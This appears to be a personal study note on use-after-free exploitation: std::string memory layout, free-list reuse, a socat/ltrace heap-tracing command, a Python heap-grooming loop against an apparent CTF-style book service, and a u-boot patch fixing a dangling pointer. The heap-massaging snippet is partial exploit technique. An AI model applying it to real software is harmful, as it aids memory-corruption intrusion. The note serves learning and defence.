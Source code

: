 - ! std::string uses in-object buffer for small strings, allocates memory for larger strings
    - => control whether allocations are triggered
- ! memory manager keeps linked-list of most recently freed address to allocate next objects

- if race-condition: one thread creates and deletes object, another thread uses object asynchronously

```cpp
std::string x{"AAAA"}
printf("%zu\n", sizeof(x));
fwrite(&x, 1, sizeof(x), stdout);
// Outputs object with string value

std::string x{"AAAABBBBCCCCDDDD"}
printf("%zu\n", sizeof(x));
fwrite(&x, 1, sizeof(x), stdout);
// Outputs object without string value
```

Heap massaging:

- run with `socat tcp-listen:31337,reuseaddr exec:"ltrace -e malloc -e free ./foo"`
- || guess layout:

```python
for i in range(20):
    if i % 3 == 0:
        add_book(s, "A" * 39, 600)
    else:
        add_book(s, "A" + str(i), 600)
    s.recvuntil("Choice?")

for i in range(2, 20, 2):
    add_fav(s, i + 1)
    s.recvuntil("Choice?")

for i in range(2, 20, 2):
    delete book(s, i + 1)

exp = add_book(s, "A" * 39, 600)
s.recvuntil("Choice?")
```

Check controlled registers:

- e.g. look for `0x41414141`

References:

- [Hacking Livestream \#48: Use\-after\-free \- YouTube](https://www.youtube.com/watch?v=zJw7CuSc8Sg)
    - https://github.com/gynvael/stream-en

Examples:

- [f\_rockusb: Avoid use\-after\-free in the global pointer variable · u\-boot/u\-boot@ff52577 · GitHub](https://github.com/u-boot/u-boot/commit/ff52577c1b5188a5f25bd7d7d41730bb5de4b688)
```diff
+ free(f_rkusb->buf_head);
  free(f_rkusb);
- rockusb_func = f_rkusb;
+ rockusb_func = NULL;
```
